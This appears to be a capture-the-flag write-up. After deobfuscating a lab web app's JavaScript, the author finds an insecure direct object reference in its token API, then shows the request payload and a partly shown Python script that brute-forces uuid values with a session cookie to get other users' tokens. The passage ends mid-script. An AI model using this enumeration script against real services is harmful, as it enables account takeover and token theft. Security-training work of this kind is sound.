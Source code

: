 This is what it looks like when I logged into:

<img width="1916" height="946" alt="image" src="https://github.com/user-attachments/assets/a2318cb5-43f1-4092-b315-9890ca34193d" />  

When reading page source, I found the **app.js** file:

<img width="498" height="90" alt="43a93769-da63-43aa-8f41-d52afdea5be6" src="https://github.com/user-attachments/assets/bef74ccf-cc54-49ec-ae99-32be9a17943a" />  

And it was obfuscated into something like JSFuck:

<img width="898" height="176" alt="6d070bc2-c492-4750-95b8-0cf9d6f76afd" src="https://github.com/user-attachments/assets/905a2a6e-5e6c-466f-b401-f89a78160327" />  

So I used **[de4js](https://de4js.kshift.me/)** to deobfuscator:

<img width="1335" height="876" alt="image 1" src="https://github.com/user-attachments/assets/127f93a8-aee0-4ccf-a11e-46298217076f" />

# **Early Access**

After deobfuscated **app.js**, I saw an interesting part here, in `GetToken()` function:

<img width="767" height="481" alt="image 2" src="https://github.com/user-attachments/assets/a2795076-924f-4ed7-ac90-38c63e1b0dbd" />  

In this part, `uuid` and `username` is **untrusted data** from user input. Server processes the request and returns a token based on the given **uuid/username** without checking if they are belong to the user in the session cookie:

```bash
var uuid = document.getElementById('uuid');
var username = document.getElementById('username');
```

Payload from client:

```bash
{"get_token":"True","uuid":"<client-controlled>","username":"<client-controlled>"}
```

This means that if I know or can guess someone else’s **uuid**, I can bruteforce **uuid** and request their token using this script:

```bash
import sys, base64, requests
from pwn import log as pwlog

progress_bar = pwlog.progress("uuid-check")

endpoint = "http://jobs.amzcorp.local/api/v4/tokens/get"

cookie_jar = {
    "session": ".eJxNjrtOBDEMRf8lNUJJnMTxVvwE9cixHVixM6OdR4X4dzKiobPvQ_d8u6lvtn-627Gd9uKmu7qbK-aZmvoqSBS0ASBBI4811Fh9V68ctWHzqRYE7lIld5NOyWcskkkgA4pywZhUW2TKPiUPUEoPkBh7DkY5Y-hVWlULKWn1lIuaihsg527bHw3lOgTZtz4d65ctF2BJmcGiT2KdqXPlGosnKSWjAQFi0XGMns18f4zKYfvxPHl5-7iEV1nnYW7rw4b3Prb28V6bC8_2L-5-fgFh4FXO.aKKxtw.w6Y_dFa3zDVeVPfiDPQH6DBIGg0"
}

http_headers = {
    "Content-Type": "application/json"
}

for num_id in range(1000):
    raw_str = f'{{"get_token": "True", "uuid": "{num_id}", "username": "testquan"}}'
    b64_str = base64.b64encode(raw_str.encode("utf-8")).decode("utf-8")
    payload_to_send = {"data": b64_str}

    resp = requests.post(
        endpoint,
        headers=http_headers,
```